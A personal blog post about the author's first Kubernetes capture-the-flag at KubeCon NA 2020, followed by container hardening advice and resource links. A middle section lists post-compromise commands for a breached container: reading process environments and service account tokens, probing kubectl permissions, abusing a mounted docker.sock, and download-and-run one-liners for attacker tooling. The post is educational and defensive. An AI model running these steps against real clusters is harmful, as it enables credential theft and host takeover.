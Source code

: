 ```yaml
---
title: my capture the flag (ctf) experience during kubecon na 2020
date: 2020-11-30
tags: [containers, kubernetes, security]
description: let's see what I have learned during my first kubecon conference as well as my first capture the flag (ctf) experience to improve my knowledge about security with containers and kubernetes.
aliases:
    - /k8s-ctf/
---
```

Two weeks ago I did my first Capture The Flag (CTF) during the first time I (e-)attend a KubeCon conference.

Doing this remotely is definitely not the same feeling as I would have experienced in an in-person event. Nonetheless my KubeCon experience was awesome, I learned a lot and I really loved the energy and the momentum from the entire communities (organizers, speakers, sponsors, attendees, etc.). I felt that the focus around Kubernetes is more about how to simplify the developers versus operators experience (`buildpacks`, `kustomize`, `gitops`, `tye`, `cdk`, etc.) and to democratize security (`opa`/`gatekeeper`, `falco`, `eBPF`, etc.) around Kubernetes. If you are interested in reading great summaries from this event, I found very insightful those 3 blog articles:
- [KubeCon 2020 Highlights and Key Takeaways by StackRox](https://www.stackrox.com/post/2020/11/kubecon-2020-highlights-and-key-takeaways/)
- [KubeCon North America 2020 virtual recap Anthony Dahanne](https://blog.dahanne.net/2020/11/18/kubecon-north-america-2020-virtual-recap/)
- [My experience at KubeCon 2020 North-America (Virtual) by Karol Deland](https://www.pragmacoders.net/my-experience-at-kubecon-2020-north-america-virtual/)

You could also watch this [KubeCon NA 2020 Wrap Up Panel](https://youtu.be/EvIjXCAfhoo):
{{< youtube EvIjXCAfhoo >}}

As I have been educating myself more and more about security, especially around Kubernetes, during KubeCon I mostly focused my time on sessions related to Security. Here are 2 announcements I'm really excited about:
- [Announcing the Cloud Native Security White Paper](https://www.cncf.io/blog/2020/11/18/announcing-the-cloud-native-security-white-paper/)
- [Kubernetes Security Specialist Certification Now Available](https://www.cncf.io/announcements/2020/11/17/kubernetes-security-specialist-certification-now-available/)

On Nov 19th, the last day of KubeCon NA 2020, the [SIG-Honk AMA panel: Hacking and Hardening in the Cloud Native Garden]() was really informative. This group of friends and longtime Kubernetes security SMEs bring their unique perspectives and experience with securing, attacking, and deploying cloud native infrastructure to form ”sig-HONK,” an unofficial Special Interest Group focused on changing the way we think about and practice security in distributed systems. Related topics:
- [Ian Coldwater won the Top CNCF Ambassador award](https://www.cncf.io/announcements/2020/11/20/cloud-native-computing-foundation-announces-2020-community-awards-winners/), well deserved!
- [Having Cloud Native fun with HonkCTL](https://kccncna20.sched.com/event/ekBS) - [Challenges here](https://github.com/honk-ci/honkctl)

On Nov 17th I e-attended one of the co-located (i.e. extra pre-day) events: the [Cloud Native Security Day](https://events.linuxfoundation.org/cloud-native-security-day-north-america/program/schedule/). An entire day of sessions dedicated to Security with Kubernetes, amazing! But what was even more amazing is something I discovered the same day that a Capture The Flag (CTF) was happening throughout the day!  What!? Yep! For people like me who are eager to learn by having hands-on experience, what a good fit!

> Fun, education, no ranking, fast feedback and support with a dedicated Slack channel.

> In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment. In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

[The organizers of this CTF](https://control-plane.io/posts/hands-on-k8s-security/) did a great job and were very responsive on Slack to provide guidance and supports (yes, I needed a lot of tips, but that's ok, I went out of my comfort zone, that was the intent). All the experience started here: https://controlplaneio.github.io/kubecon-2020-sig-security-day-ctf/. From there, we went through 6 scenarios, ~1h each. With each scenario we act as an attacker already in a breached container, and from there we needed to find associated flags.

I won't go all the scenario one-by-one but instead will summarize commands an attacker will run: `id; uname -a; cat /etc/lsb-release /etc/redhat-release /etc/os-release; ps faux; df; mount; curl --version; wget --version`. From there they could see what they could do:
- which distrib is running?
- am I root?
- is there any process I could look at, like a database or anyting else sensitive `cat /proc/$PID/environ`?
- are `curl` or `wget` already installed?
- am I on a container? on kubernetes? is it a recent version of Kubernetes `curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version`?
- is the serviceaccount mounted? what is `ls /var/run/secrets/kubernetes.io/serviceaccount/` telling me? Which actions can I do `kubectl auth can-i --list`, `kubectl auth can-i create pods`?
- is the `docker.sock` mounted? can I leverage few `docker` commands to get more sensitive information or even move laterally?

More advanced scenario attackers will try, could be:
- Install `amicontained` to find out what container runtime is being used as well as features available: `cd /tmp; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained`
- Install `Docker` if `docker.sock` is mounted to get control on the host: `curl -fsSL https://get.docker.com -o get-docker.sh; docker ps; docker inspect; docker exec...`
- Install `kubectl` to interact with the API server: `export PATH=/tmp:$PATH; cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.19.4/bin/linux/amd64/kubectl; chmod 555 kubectl`

So you you could play around these commands with an `ubuntu` container on a given Kubernetes cluster:
```
kubectl run test -i --tty --rm --image ubuntu
```

So let's now talk about how to prevent and avoid such exploits, here are few tips we could leverage for our own security posture with our own containers running on Kubernetes:
- don't let any `curl` or `wget` components in your container if possible to prevent an attacker downloading files
- don't use privileged pod to prevent running as root and avoiding attacker installing tools in there
- don't mount the serviceaccount in your pod if you don't need it
- setup networking policies to restrict to the least minimum ingress and egress for your pods

Now you could deploy the same `ubuntu` container but with more security features, illustrated below, and from there, you could try again the above commands from an attacker perspective (tl,dr their live will be more complicated ;)):
```
kubectl apply -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: test2
  labels:
    app: test2
spec:
  selector:
    matchLabels:
      app: test2
  template:
    metadata:
      labels:
        app: test2
    spec:
      serviceAccountName: default
      automountServiceAccountToken: false
      securityContext:
        runAsUser: 1000
      containers:
        - name: test2
          securityContext:
            capabilities:
              drop:
                - all
            runAsNonRoot: true
            allowPrivilegeEscalation: false
            readOnlyRootFilesystem: true
          image: ubuntu
          command:
            - "sleep"
            - "604800"
          ports:
            - containerPort: 80
---
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: denyall
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
EOF
kubectl exec -it ubuntu-xxx -- bash
```

On my end, that's kind of setup and security posture I have been taking, here are more examples I have documented about this:
- [NetworkPolicies with Calico]({{< ref "/posts/2019/09/calico.md" >}})
- [PodSecurityContext]({{< ref "/posts/2020/04/pod-security-context.md" >}})

Complementary to this, here are other security features I'm leveraging with my Kubernetes cluster to add extra security layers:
- [Binary Authorization to sign your containers]({{< ref "/posts/2020/11/binauthz.md" >}})
- [Least privilege principle and Workload Identity with my GKE cluster]({{< ref "/posts/2020/10/gke-service-account.md" >}})
- Containers scanning
- [Minimal and optimized OS for my nodes with COS](https://cloud.google.com/container-optimized-os/) with [`containerd`](https://cloud.google.com/kubernetes-engine/docs/concepts/using-containerd) and auto-upgrade
- Use Confidential Computing and Shielded Nodes
- Use Private Cluster
- I will soon add an implementation of `OPA/GateKeeper` too.

From there I was excited to do some research around other materials I could leverage to learn more about CTF or Attacker/Defender scenario with Kubernetes, here are other interesting resources on that regard:
- [KubeCon NA 2017 - Hacking and Hardening Kubernetes Clusters by Example](https://youtu.be/vTgQLzeBfRU) - [Presentation](http://goo.gl/TNRxtd) - [Demos](http://goo.gl/fwwbgB)
- [KubeCon NA 2019 CTF - Tutorial: Attacking and Defending Kubernetes Clusters: A Guided Tour](https://youtu.be/UdMFTdeAL1s) - [Demos](https://securekubernetes.com/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://youtu.be/HmoVSmTIOxM) - [Presentation](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)

Further and complementary resources:
- [11 Ways (Not) to Get Hacked](https://kubernetes.io/blog/2018/07/18/11-ways-not-to-get-hacked/)
- [`kubesec` by controlplane](https://kubesec.io/)
- [Cloud native security for your clusters](https://kubernetes.io/blog/2020/11/18/cloud-native-security-for-your-clusters/)
- [Hack my mis-configured Kubernetes – privileged pods](https://www.cncf.io/blog/2020/10/16/hack-my-mis-configured-kubernetes-privileged-pods/)
- [Best practices for building containers](https://cloud.google.com/solutions/best-practices-for-building-containers)
- [Best practices for operating containers](https://cloud.google.com/solutions/best-practices-for-operating-containers)

Security is a shared responsibility, your code, your containers and your Kubernetes clusters are not secured by default, let's democratize security since day 0 at the different levels of your IT solutions!

Hope you enjoyed that one, stay safe, happy sailing and happy honking! ;)

Cheers!